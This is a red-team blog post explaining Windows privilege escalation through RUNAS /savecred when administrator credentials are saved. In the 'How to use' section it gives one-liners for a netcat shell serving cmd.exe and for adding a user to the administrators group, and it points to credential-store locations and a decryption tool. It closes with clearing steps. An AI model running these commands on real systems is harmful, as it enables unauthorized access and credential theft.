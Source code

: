 Title: RUNAS ftw!
Summary: A while ago I was playing a CTF, **RUNAS** was one of the ways to run a **cmd.exe** process with elevated privilege. This sounds basic but it never occured to me to use it for privilegde escalation so I decided to play around with it some more.
Date: 2018-12-09 22:00
Modified: 2018-12-09 22:01
Category: Red-Team
Tags: Red-Team, priv-esc, MITRE-Attack:T1134, Access Token Manipulation
Slug: RUNAS_administrator
Authors: pebkac

# Background
A while ago I was playing a CTF, where I had to use **RUNAS** as a ways to run a **cmd.exe** process with elevated privilege.
This sounds basic but it never occured to me to use it for privilegde escalation so I decided to play around with it some more, but when you think about it.<br /><br />How many users/sysadmins are not tired of entering their password everytime you need to start a process with administrator privilege. Selecting the **save creditials** checkbox is way of making your life easier. Ofcourse every sysadmin, developer or cyber security professional knows **NOT** to do this.<br /><br />But after playing with it, I found it happens more often than you might think.<br /> Thus creating opportunity for attackers.

# The command used
When we look at the documentation of the **RUNAS** command you get the following:

```batch
RUNAS
Execute a program under a different user account (non-elevated).

Syntax
      RUNAS [ [/noprofile | /profile] [/env] [/savecred | /netonly] ]
         /user:UserName program

      RUNAS [ [/noprofile | /profile] [/env] [/savecred] ]
         /smartcard [/user:UserName] program

      Display the trust levels that can be used:
      RUNAS /showtrustlevels

      Run a program at a given TrustLevel:
      RUNAS /trustlevel:TrustLevel program

Key
   /noprofile       Do not load the user's profile.
                    This causes the application to load more quickly, but
                    can cause some applications to malfunction.

   /profile         Load the user's profile. (default)

   /env             Use the current environment instead of user's.

   /netonly         Use the credentials for remote access only.

   /savecred        Use credentials previously saved by the user.
                    This option is not available on Windows 7 Home or
                    Starter Editions and will be ignored.

   /smartcard       Load the credentials from a smartcard.

   /user            UserName in the form USER@DOMAIN or DOMAIN\USER

   /trustlevel Level  One of levels enumerated in /showtrustlevels.
                      RunAs is not able to launch an application with an elevated
                      access token.

   program          The program to run.
```
# How does this work you ask ?
What makes this possible is the **/savecred** key that can be used if the user has previously selected the **save credentials** checkbox when running a process as a different user. The Second place I found this to be true is the **Developer mode** in windows 10 which is awesome because there are some developers in a company that will turn this on. Keep in mind that there are exeptions when GPO is applied etc. However these hosts will sometimes hold .txt files with credentials to the production enviroment. You can only imagine why these are interesting for an attacker.
# The Scenario
Microsoft Windows will sometimes give you a pop-up if you need to run something as a different or privileged user and Let's be honest it's just easier to check the box so that you don't have to do this over and over again during testing. After this the user has saved the administrator credentials to the Windows Credential Manager<br />
However the user may forget to clear the saved credential database afterwards. 
<br />
<br />
So eventhough the documentation states **(non-elevated)** you might just want to try this when you need escalate privilegde during Red-Team activities.


# How to use
I found 3 options that worked while I was testing but there are more when you go down the rabbit hole.<br />
## Reverse-shell
This works if you have copied a executable like netcat (nc) on the system first.
```batch
runas /noprofile /user:<computername>\Administrator /savecred "nc -lvp 4444 -e cmd.exe"
```
## Adding your low privilegde user to the administrators group
This might mean you need to restart your shell before it takes affect.
```batch
runas /noprofile /user:<computername>\Administrator /savecred "net localgroup administrators <username> /add"
```
## Opening a file that has a different owner
Don't forget to escape the pair of double quotes ;-)
```batch
Runas /noprofile /user:<computername>\Administrator /savecred "notepad \"C:\work\demo file.txt\""
```
In theory you could change the local computername for a domain if you want to test this in a corporate enviroment.


# Other means of attack

However these results raised more questions, where are these password stored? is there a way of decrypting them to harvest the credentials after you gained a privileged shell. I was fortunate enough to talk to a colleague who pointed me towards a tool from nirsoft. [Nirsoft's CredentialsFileView](https://www.nirsoft.net/utils/credentials_file_view.html "Nirsoft credential file viewer")<br /><br />

## Database locations
```batch
C:\Users\[User_Profile]\AppData\Roaming\Microsoft\Credentials (Windows Vista and later)
C:\Users\[User_Profile]\AppData\Local\Microsoft\Credentials (Windows Vista and later)
C:\Windows\system32\config\systemprofile\AppData\Local\Microsoft\Credentials (Windows 8 and later)
C:\Documents_and_Settings\[User_Profile]\Application_Data\Microsoft\Credentials (Windows XP)
C:\Documents_and_Settings\[User_Profile]\Local_Settings\Application_Data\Microsoft\Credentials (Windows XP)   
```

# Clearing the database
I think its only fair if I tell you how to clear the database of these saved credentials.<br />
Especially because it only takes 3 steps.<br /><br />
1. Click Start > Control Panel > User Accounts > Credential Manager.<br />
2. Select the Windows Credentials option.<br />
3. Then click Remove from Vault or Remove (depending upon which version of Windows you are running).<br />